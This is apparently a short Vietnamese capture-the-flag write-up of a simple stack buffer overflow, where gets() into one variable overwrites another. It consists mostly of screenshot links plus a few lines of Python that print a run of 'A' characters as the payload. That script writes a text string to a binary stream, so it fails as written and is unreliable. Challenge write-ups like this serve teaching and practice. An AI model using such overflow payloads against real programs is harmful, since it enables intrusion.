 <img width="546" height="235" alt="image" src="https://github.com/user-attachments/assets/2367704c-657c-4229-9fcb-eee4733102b5" />  

Kiểm tra cơ bản:  

<img width="893" height="418" alt="image" src="https://github.com/user-attachments/assets/55e2c912-e6d3-4b1c-be26-9f74257e6377" />  

Phân tích bằng IDA:  

<img width="765" height="403" alt="image" src="https://github.com/user-attachments/assets/34020751-6552-4195-8701-edcad3c30bf5" />

Buffer overflow đơn giản với `gets(v5, argv);` và `v7`:   
`v5` tràn stack sẽ vào `v7`. Cứ nhập payload dài dài là được.  
```python
import sys
payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
sys.stdout.buffer.write(payload)
```
Peace!







